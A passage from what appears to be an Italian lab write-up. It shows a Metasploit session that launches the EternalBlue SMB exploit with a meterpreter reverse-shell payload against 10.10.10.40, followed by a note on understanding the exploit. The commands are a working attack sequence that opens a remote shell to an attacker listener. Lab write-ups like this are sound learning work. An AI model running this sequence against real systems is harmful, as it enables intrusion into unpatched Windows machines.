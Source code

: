 ```bash

Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 auxiliary(scanner/smb/smb_ms17_010) > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded S
                                             tandard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Stand
                                             ard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targ
                                             et machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.10.40
RHOST => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.17
LHOST => 10.10.14.17
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```
\
Arrivati a questo punto, per quella che è la mia esperienza, ho notato che spesso nei writeup vengono "snippati" i blocchi di codice che Metasploit esegue automaticamente. Personalmente invece, quando mi è possibile farlo, preferisco cercare di capire, almeno a grandi linee, come funziona l'exploit che sto usando, penso quindi che sia interessante lasciare l'output prodotto. Ho trovato molto interessante anche un <a href="http://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/EternalBlue/EternalBlue_report.pdf" target="_blank">articolo</a> che spiega il funzionamento dell'exploit.
